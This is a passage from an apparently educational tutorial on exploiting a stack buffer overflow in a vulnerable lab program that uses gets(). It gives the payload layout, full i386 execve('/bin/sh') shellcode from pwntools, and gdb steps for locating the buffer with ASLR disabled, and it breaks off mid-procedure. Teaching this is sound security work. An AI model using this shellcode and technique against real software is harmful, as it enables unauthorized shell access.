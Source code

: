 To avoid size constraint I'll place the effective code just after  the overwritten ``eip``,
this means that the first 44 bytes will be padding;

```
[          padding             ][addr shellcode][ shellcode ]
'-------- 44 bytes  -----------'          |             /'\
                                          '--------------'
```

To generate our shellcode I use another tool from pwntools: ``shellcraft``; this oneliner
creates a shellcode capable to instantiate a shell

```
$ shellcraft i386.linux.sh --format asm
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push '/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx, esp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016972
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80
```

later will use the ``--format raw`` to obtain the shellcode as raw bytes.

What is missing is the knowledge of the address where the shellcode will be at runtime, but this
can be calculated knowing the address of ``name``. This address can be obtained
attaching ``gdb`` to our process when it's waiting: launch it from one terminal

```
$ setarch i386 --addr-no-randomize simplest_excalation
What's your name?
```

and use ``gdb``

```
$ gdb -p `pidof simplest_excalation`
 ...
[#0] Id 1, Name: "simplest_excala", stopped, reason: STOPPED
───────────────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0xf7fd4059 → Name: __kernel_vsyscall()
[#1] 0xf7e73497 → Name: read()
[#2] 0xf7e003a8 → Name: _IO_file_underflow()
[#3] 0xf7e014bb → Name: _IO_default_uflow()
[#4] 0xf7df46e9 → Name: gets()
[#5] 0x80491b4 → Name: greetings()
[#6] 0x8049205 → Name: main(argc=0x1, argv=0xffffcc64, envp=0xffffcc6c)
────────────────────────────────────────────────────────────────────────────────────────
0xf7fd4059 in __kernel_vsyscall ()
gef➤  frame 5
#5  0x080491b4 in greetings () at public/code/simplest_excalation.c:11
11          gets(name);
gef➤  x/a name
```